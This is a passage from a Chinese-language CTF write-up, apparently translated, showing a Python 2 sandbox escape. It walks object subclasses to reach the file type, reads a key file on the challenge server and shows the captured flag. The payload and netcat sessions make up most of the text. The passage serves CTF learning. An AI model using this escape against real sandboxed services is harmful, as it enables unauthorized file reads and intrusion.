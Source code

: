 我们在这里有我们需要的一切！

然后我可以file用一些简单的行在列表中找到索引：



```
&gt;&gt;&gt; all_classes = []
&gt;&gt;&gt; for entry in ().__class__.__bases__[0].__subclasses__():
...     all_classes.append(entry.__name__)
...
&gt;&gt;&gt; all_classes.index("file")
40
```

我们不能在挑战中使用这个代码（甚至重写为列表解析），因为它包括空格。但是由于file在索引40，我们可以硬编码。



```
&gt;&gt;&gt; ().__class__.__bases__[0].__subclasses__()[40]
&lt;type 'file'&gt;
```

一旦我们引用了文件，我们所需要做的就是创建一个文件对象并读取它：



```
&gt;&gt; ().__class__.__bases__[0].__subclasses__()[40]("./key").read()
"This works"
```

所以解决题目我们需要，



```
moshe@moshe-desktop:~$ netcat ctf.fluxfingers.net 2045
Go Ahead, Expoit me &gt;;D
().__class__.__bases__[0].__subclasses__()[40]("./key").read()
().__class__.__bases__[0].__subclasses__()[40]("./key").read()
Return Value: FvibLF0eBkCBk
```

在旁注中，我们不需要在单个语句中执行 – exec在当前上下文中运行代码，因此通过将每个命令的输出存储在变量（除了a）之外，我们可以轻松地保持命令之间的状态。



```
moshe@moshe-desktop:~$ netcat ctf.fluxfingers.net 2045
Go Ahead, Expoit me &gt;;D
x=23
x=23
Return Value: 23
45
45
Return Value: 45
x
x
Return Value: 23
```
